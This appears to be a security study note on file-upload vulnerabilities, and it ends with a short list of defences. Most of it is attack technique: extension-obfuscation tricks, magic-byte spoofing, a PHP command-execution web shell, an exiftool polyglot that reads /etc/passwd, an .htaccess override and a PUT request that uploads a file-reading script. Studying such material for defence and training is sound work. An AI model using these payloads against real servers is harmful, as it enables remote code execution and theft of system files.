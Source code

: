 # File upload

## General info

Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text

## Flawed validation of FU

### **Content-Type**

<details>

<summary>multipart/form-data</summary>

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

</details>

* Change Content-Type to an allow MIME type. Ex. `image/jpeg`

### Blacklisted extensions

* Change extensions
  * `.php5` etc.
* Obfuscating file extensions
  * Case sensitive `exploit.pHp`
  * `exploit.php.jpg`
  * `exploit.php.`
  * `exploit%2Ephp`
  * `exploit.asp;.jpg`
  * `exploit.asp%00.jpg`
  * `exploit.p.phphp`
  * Others..

### File content validation

* More secure servers try to verify that the contents of the file actually match what is expected
  * Ex 1: verify certain intrinsic properties of an image, such as its dimensions
  * Ex 2: certain file types may always contain a specific sequence of bytes in their header or footer

#### Magic number

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

#### Polyglot (on exiftool)

* Create a polyglot JPEG file containing malicious code within its metadata
  * `exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
    * This works if you can upload a php extension file. This works why you have a real image file (that bypass rescritions) but when you open the image it's executed as php script.

## Overriding server configuration

* Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.
* Apache servers -> `.htaccess`
* Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests
* if the file extension is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type
  * Example: `AddType application/x-httpd-php .<EXTENSION>`

## PUT method

* If appropriate defenses aren't in place, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface.

```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## **FU + PT**

* One defence: stop the server from executing any scripts that do slip through the net
* Web servers often use the filename field in `multipart/form-data` requests to determine the name and location where the file should be saved.
  * **Change filename field combining path traversal**

## FU without RCE

* If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads
* For example, you know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.

## File upload + race conditions

* Some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware.
* For the short time that the file exists on the server, the attacker can potentially still execute it.
  * Race conditions
  * Difficult to detect

### Race conditions in URL-based file uploads

* If file is loaded into a temporary directory with a randomized name, in theory, it should be impossible for an attacker to exploit any race conditions
* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
* Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes

## Prevent file upload vulnerabilities

* Check the file extension against a whitelist of permitted extensions
* Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence `(../)`
* Rename uploaded files to avoid collisions that may cause existing files to be overwritten
* Do not upload files to the server's permanent filesystem until they have been fully validated
* As much as possible, use an established framework for preprocessing file uploads
